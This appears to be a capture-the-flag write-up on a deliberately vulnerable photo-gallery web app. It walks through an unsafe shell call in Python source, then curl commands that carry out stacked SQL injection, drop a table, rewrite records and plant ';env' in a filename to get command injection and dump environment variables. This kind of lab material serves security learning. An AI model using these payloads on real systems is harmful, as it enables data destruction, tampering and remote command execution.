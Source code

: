 ```
```

Let's take a step back. The next hint suggests the "Space used" function is suspicious. Formatted:

```
rep += 
  '<i>Space used: ' + 
  subprocess.check_output(
    'du -ch %s || exit 0' % 
    ' '.join('files/' + fn for fn in fns), 
    shell=True, stderr=subprocess.STDOUT
  )
  .strip().rsplit('\n', 1)[-1] + 
  '</i>'
```

So we're running `du -ch %s || exit 0`... how is `%s` set?

`' '.join('files/' + fn for fn in fns)`

Where `fns` is file names as listed from the database. Really seems like we need to find a SQL injection. 
If we could, we could run arbitrary commands like `du -ch ./file || my_cool_commands || exit 0`.

This seems to work:

`curl "${BASE_URL}/fetch?id=11%20OR%20SLEEP(5);"`

This definitely worked, webapp crashed:

`curl "${BASE_URL}/fetch?id=1;DROP%20TABLE%20photos"`

Oh, the hint about "committing" is about COMMIT for prepared statements... one sec, let's re-create the webapp.

Maybe we can update the title for an existing post? Yeah, this worked:

`curl "${BASE_URL}/fetch?id=1;UPDATE%20photos%20SET%20title='pwned';COMMIT;"`

Tried to defeat the `sanitize` function, but maybe that's not the way? Oh, let's update the filename for
something, so that we can run bash commands with the `du -ch` call. 

`curl "${BASE_URL}/fetch?id=1;UPDATE%20photos%20SET%20filename='';COMMIT;"`

This locked me out of the app again. That's something to be aware of, my SQL injection requires that the `fetch`
command from the source code actually works. 

`curl "${BASE_URL}/fetch?id=1;UPDATE%20photos%20SET%20filename=''%20WHERE%20id='2';COMMIT;"`

This keeps me working - I'm able to mess with file id 2, while keeping 1 available for the exploit. 

And, there we go, another flag with:

`curl "${BASE_URL}/fetch?id=1;UPDATE%20photos%20SET%20filename=';env'%20WHERE%20id='2';COMMIT;"`

But, the hints are confusing for this last flag - are they mixed up? The stuff about finding the album size, 
stacked queries, environment, all made sense for the flag I just found, but it's saying I found a different
flag...
